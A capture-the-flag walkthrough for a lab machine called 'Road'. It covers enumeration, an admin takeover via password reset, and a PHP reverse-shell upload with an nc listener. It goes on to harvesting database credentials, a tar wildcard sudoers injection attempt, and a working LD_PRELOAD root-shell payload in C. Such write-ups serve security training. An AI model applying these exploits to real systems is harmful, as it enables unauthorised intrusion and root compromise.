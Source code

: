 # Road - Medium

* Add ```road.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v road.thm```:

  * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - Apache httpd 2.4.41 ((Ubuntu))

* We can start web enumeration:

  ```sh
  gobuster dir -u http://road.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # directory scan

  gobuster dir -u http://road.thm/assets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # scan the folders recursively

  gobuster dir -u http://road.thm/v2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25

  gobuster dir -u http://road.thm/v2/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25

  ffuf -c -u "http://road.thm" -H "Host: FUZZ.road.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25 -fw 2975 -s
  # subdomain enum

  gobuster vhost -u http://road.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
  # vhost enum
  ```

* The webpage is for 'Sky Couriers'; the source code does not show much, so we can interact with the 2 forms we have at /index.html - the 'Track Order' form and the 'Contact Us' form

* The forms do not have any functionality, but we get another page at /v2/admin/login.html which seems to be for the Admin page

* Also, directory enumeration gives us the following pages:

  * /assets
  * /career.html
  * /v2 (this leads to /v2/admin/login.html)
  * /phpMyAdmin

* Checking the other folders recursively, we get pages at /v2/lostpassword.php, /v2/admin/index.php, /v2/admin/register.html, /v2/admin/reg.html

* Navigating to /v2/lostpassword.php shows 'Internal Server Error!', and /v2/admin/reg.html does not give us anything

* Since we do not have any known creds, and using default creds does not help, we can register an account at /v2/admin/register.html, and try to login using those creds

* After logging in, we get access to a dashboard - the only points of interaction with input fields include the AWB search at /v2/admin/track_orders.php, profile view at /v2/profile.php, and reset user at /v2/ResetUser.php

* When we try to interact with the AWB search with a test input, we are led to '/v2/admin/track_orders.php?awb=test', which says the service is not fixed; we can check other endpoints

* For /profile.php, amongst other text fields, we have an image upload field as well for profile image - but currently only <admin@sky.thm> has access to that feature according to the given note.

* Now, for the reset user functionality at /v2/ResetUser.php, we can test if we are able to change the username from our email to admin email. If we intercept a request after submitting 'password' as the new password, and we change the email value to <admin@sky.thm>, and forward this modified request, we get a successful message and led to login page again, where the email <admin@sky.thm> with password 'password' works

* Now, as admin user, if we navigate to /profile.php, we can see the profile image functionality is allowed for us

* We can try to upload reverse shell here by bypassing any upload restrictions - on a test upload, we can see '.php' files can be uploaded, but it does not reflect when we click on the profile image in the top right corner of webpage

* In the source code for /v2/profile.php, we can see a comment which mentions the path '/v2/profileimages/' - this could include the uploaded files

* Navigating to this page shows 'directory listing is disabled', but we can try using the same file name as the uploaded one to attempt a reverse shell:

  ```sh
  nc -nvlp 4444
  # setup listener

  # after uploading the PHP reverse shell, we can try accessing it
  curl http://road.thm/v2/profileimages/revshell.php

  # this works and we get reverse shell

  id
  # www-data

  # we can upgrade our shell to a stable one
  python3 -c 'import pty;pty.spawn("/bin/bash")'

  export TERM=xterm

  # Ctrl+Z
  stty raw -echo; fg
  # now press Enter key twice

  # start initial enumeration

  ls -la /home
  # we have a user here

  ls -la /home/webdeveloper
  # we can get the user flag

  # we cannot read the other files here
  # we can enumerate the web directory

  ls -la /var/www/html
  # we can enumerate all the directories & files here
  ```

* In the PHP file '/var/www/html/v2/lostpassword.php', we get the password "ThisIsSecurePassword!" used for connecting to MySQL DB

* We can try using these creds to connect to MySQL service:

  ```sh
  mysql -u root -p
  # the above password works

  show databases;

  use SKY;

  show tables;

  select * from Users;
  # shows web login info, not useful
  ```

* Since MySQL does not have anything useful, we can check for any other services to be enumerated:

  ```sh
  ss -ltnp
  # check internal services for anything to be enumerated
  # we have port 27017 open
  ```

* 27017 is for MongoDB - we can try connecting to this:

  ```sh
  mongo --port 27017
  # we get connected

  show dbs;

  # we have 'backup' DB here

  use backup;

  show collections;

  # check the 'user' collection
  db.user.find().pretty();
  # this prints out some data
  # includes name and password "webdeveloper:BahamasChapp123!@#"
  ```

* Using these creds, we can try logging in via SSH:

  ```sh
  ssh webdeveloper@road.thm
  # the above password works

  sudo -l
  ```

* ```sudo -l``` shows that we can run ```/usr/bin/sky_backup_utility``` as root without password - we can check this binary further:

  ```sh
  ls -la /usr/bin/sky_backup_utility
  # we cannot write to this file

  file /usr/bin/sky_backup_utility

  strings /usr/bin/sky_backup_utility
  ```

* From ```strings``` for the binary, we get a line ```tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/*```; as wildcard character is used for ```tar```, we can exploit this using [tar wildcard injection methods](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/):

  ```sh
  # navigate to target directory
  cd /var/www/html

  # now we can follow the exploit
  # and give 'webdeveloper' user root privs
  echo 'echo "webdeveloper ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > runme.sh
  # this says permission denied, seems 'webdeveloper' user does not have write privileges in this directory

  # navigate back to the reverse-shell for user 'www-data'
  # this user can write to the web directory
  echo 'echo "webdeveloper ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > runme.sh
  # this works

  # in the same directory, we need to inject the code for this to work
  echo "" > "--checkpoint-action=exec=sh runme.sh"

  echo "" > --checkpoint=1

  # now, go back to the SSH session of 'webdeveloper'
  # we can run the script now as we have 'sudo' privileges for this
  sudo /usr/bin/sky_backup_utility
  # this does not work
  ```

* From the ```sudo -l``` output that we had checked earlier, we can also see ```LD_PRELOAD``` is set, we can try to exploit this:

  ```sh
  cd

  vim shell.c
  # add the exploit code

  gcc -fPIC -shared shell.c -o shell.so -nostartfiles
  # compile exploit

  sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
  # run it with the binary
  # this works and we get root shell
  ```

  ```c
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>

  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
